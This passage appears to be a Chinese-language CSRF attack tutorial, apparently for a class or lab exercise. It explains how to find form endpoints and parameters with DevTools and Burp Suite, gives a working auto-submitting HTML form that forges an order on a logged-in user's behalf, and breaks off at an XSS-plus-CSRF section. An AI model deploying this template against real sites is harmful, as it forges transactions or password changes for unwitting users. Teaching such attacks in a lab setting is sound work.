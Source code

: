 1. 打开目标系统
2. F12 → 切换到「Network」
3. 执行一次下单 / 修改密码等操作
4. 查看对应请求项 → 找到：
   - `Request URL`（如：`/order.php`）
   - `Request Method`（应为 POST）
   - 请求体参数（如 `menu_id=1&note=xxx`）

---

### ✅ 方法 2：查看网页源码 `<form>` 表单

1. 页面右键 → 查看源代码 或 F12 → Elements
2. 搜索 `<form` 标签，查看：
   - `action` 属性 → 确认请求路径
   - `method="POST"` → 可被模拟
   - 内部字段名：如 `name="menu_id"` 等

---

### ✅ 方法 3：使用 Burp Suite/ZAP 等代理拦截工具（进阶）

1. 启动 Burp → 设置浏览器代理（127.0.0.1:8080）
2. 执行操作 → 拦截请求
3. 复制 Request Header + Body 信息，用于构造攻击请求

---

## 🧪 四、CSRF 攻击模板构造（改密码 / 下订单）

### 🎯 示例攻击页面：

```html
<html>
  <body onload="document.forms[0].submit();">
    <form action="http://target.com/order.php" method="POST">
      <input type="hidden" name="menu_id" value="3">
      <input type="hidden" name="quantity" value="99">
      <input type="hidden" name="note" value="HackedByGroup9">
    </form>
  </body>
</html>
```

- 需要用户处于已登录状态（浏览器自动带 cookie）
- 页面一加载就自动提交攻击请求

---

## 💥 五、XSS 联动攻击模板（注入+CSRF）

注入到菜单名 / 描述等字段中：
